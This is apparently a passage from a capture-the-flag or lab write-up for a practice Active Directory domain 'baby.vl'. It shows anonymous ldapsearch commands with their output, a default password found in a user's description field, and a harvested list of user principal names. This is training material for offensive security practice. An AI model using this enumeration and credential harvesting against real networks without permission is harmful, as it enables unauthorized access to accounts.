 ```
# search reference
ref: ldap://DomainDnsZones.baby.vl/DC=DomainDnsZones,DC=baby,DC=vl

# search reference
ref: ldap://baby.vl/CN=Configuration,DC=baby,DC=vl

# search result
search: 2
result: 0 Success

# numResponses: 14
# numEntries: 10
# numReferences: 3
```

**Critical Finding:** Teresa Bell's description contains a default password: `BabyStart123!`. Let's confirm Teresa Bell's `sAMAccountName`.

```
ldapsearch -x -H ldap://10.10.105.113 -b "CN=Teresa Bell,OU=it,DC=baby,DC=vl" sAMAccountName

# extended LDIF
#
# LDAPv3
# base <CN=Teresa Bell,OU=it,DC=baby,DC=vl> with scope subtree
# filter: (objectclass=*)
# requesting: sAMAccountName
#

# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
sAMAccountName: Teresa.Bell

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```

Let's also extract all `userPrincipalNames` for reference.

```
ldapsearch -x -b "dc=baby,dc=vl" "*" -H ldap://10.10.105.113 | grep userPrincipalName

userPrincipalName: Jacqueline.Barnett@baby.vl
userPrincipalName: Ashley.Webb@baby.vl
userPrincipalName: Hugh.George@baby.vl
userPrincipalName: Leonard.Dyer@baby.vl
userPrincipalName: Connor.Wilkinson@baby.vl
userPrincipalName: Joseph.Hughes@baby.vl
userPrincipalName: Kerry.Wilson@baby.vl
userPrincipalName: Teresa.Bell@baby.vl
userPrincipalName: Caroline.Robinson@baby.vl
```

---
